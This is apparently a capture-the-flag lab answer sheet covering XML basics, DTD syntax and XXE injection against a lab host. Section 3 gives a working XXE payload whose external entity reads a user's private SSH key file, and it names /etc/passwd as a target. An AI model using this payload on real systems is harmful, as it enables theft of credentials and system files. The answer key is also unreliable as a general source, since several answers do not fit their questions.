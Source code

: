 ##IP = 10.10.29.194

### Section 1

#1Full form of XML
```
eXtensible Markup Language
```

#2 Is it compulsory to have XML prolog in XML documents?
```
No
```

#3Can we validate XML documents against a schema?
```
yes
```

#4 How can we specify XML version and encoding in XML document?
```
XML Prolog
```

### Section 2

#1 How do you define a new ELEMENT? 
```
!ELEMENT
```
#2How do you define a ROOT element?
```
!DOCTYPE
```

#3 How do you define a new ENTITY?
```
!ENTITY
```

## Section 3
#1 What is the name of the user in /etc/passwd
```
use the payload
```

#2 Where is falcon's SSH key located?
```
/home/falcon/.ssh/id_rsa
```

#3 What are the first 18 characters for falcon's private key
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```